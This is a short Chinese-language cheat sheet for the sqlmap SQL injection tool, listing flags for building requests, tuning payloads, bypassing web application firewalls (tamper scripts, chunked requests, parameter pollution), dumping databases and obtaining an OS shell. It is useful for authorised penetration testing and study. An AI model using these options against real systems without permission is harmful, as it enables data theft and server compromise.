 # TQ sqlmap一把梭大法 

> sqlmap -u "url" 
# ***思维***

```mermaid
graph LR
A[有漏洞] -->B(拼接请求包)
    B --> C{是否成功注入}
    C -->|特殊情况| E[针对性修改payload] --> D
    C -->|无防护| D[托数据]
    F[思维流程图]
```
## 拼接请求包
```shell
-u "url"
-p "参数"
-r "http请求包文件"
-m "url文件"
--data=DATA #拼接body
--cookie=COOKIE # 仅拼接cookie不能测payload
--mobile #  拼接移动端ua
--random-agent # 随机ua
--proxy=PROXY # 挂代理
```
---
## 控制payload
```shell
--dbms=DBMS # 设置数据库类型，记不住名字可以--dbms="1"
--prefix=PREFIX # 在payload前加东西
--suffix=SUFFIX # 在payload后加东西
--technique=TECHNIQUE # 注入类型“B:布尔，E：显注，U：union,S:stacked,T：时间注入，Q:query lnline”
--batch # 自动输入y
--level=LEVEL # 测试等级1-5，注意脏数据
--risk=RISK # payload危害性1-3
--second-url=URL #结果重定向到指定的URL
--chunked # 将post请求包拆分绕过防护
--hpp # hpp攻击,绕墙
--tamper=TAMPER # 使用指定脚本绕过防护，目录/usr/share/sqlmap/tamper
```
---
## 脱数据
```shell
--is-dba # 返回是不是用户数据库管理员
--dbs   # 返回数据库
--current-user # 返回当前用户
--current-db # 返回当前所在数据库
-D -T -C --dump # 托全部数据
```
---
## 控制访问
```shell
--os-shell # 拿系统权限
--delay=DELAY # 延迟发包针对破服务器
--timeout=TIMEOUT # 设置连接延迟时间默认30s
--time-sec=TIMESEC # 设置接收响应的延迟默认5s
```


